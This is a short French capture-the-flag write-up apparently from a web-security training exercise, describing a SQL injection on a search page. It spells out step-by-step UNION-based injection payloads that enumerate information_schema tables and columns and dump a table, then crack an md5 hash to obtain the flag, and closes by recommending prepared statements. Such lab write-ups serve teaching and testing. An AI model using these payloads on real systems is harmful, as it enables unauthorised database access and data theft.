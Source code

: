 # exploiter faille SQL

## Exploit
sur la page /index.php?page=searchimg nous pouvons effectuer une recherche direcement dans la base de donnee \
pour exploiter la table nous avons besoin de connaitre le nom des tables et des colonne. \
dans un premier temp on cherche le nombre de colonne avec : 1 ORDER BY X \
une fois X determine on recherche le nom de la table qui nous interesse avec : 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables \
(ajouter autant de table_schema ou table_name que X) \
ensuite il nous faut determiner les colonnes de la table : 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns \
pour finir on execute notre requete avec les informations recuperees : 1 AND 1=2 UNION SELECT title,comment FROM list_images \
la base de donnees nous affiche : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 \
decrypte : albatroz \
on met en minuscule puis encrypte en Sh256 pour avoir le flag. \
\
## Protection :
L'utilisation de requete preparee en back  permet d'eviter l'injection sql. \
